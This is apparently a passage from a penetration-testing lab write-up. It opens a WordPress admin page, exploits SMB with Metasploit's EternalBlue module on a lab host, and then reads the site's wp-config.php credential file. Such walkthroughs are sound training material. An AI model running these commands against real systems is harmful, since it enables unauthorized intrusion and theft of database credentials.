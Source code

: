 - Access via browser
  - `http://10.2.26.45:8585/wordpress/wp-admin`

![](4-exploitationassets/image-20230424124518055.png)

- Try to gain access to **phpMyAdmin** using MSF
  - Access the target through SMB and modify phpMyAdmin configuration file

```bash
# Open the MSF tab
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.2.26.45
run
```

```bash
sysinfo
```

- Move into the `wamp` folder

```bash
cd /
cd wamp
dir
cd www\\wordpress
cat wp-config.php
```
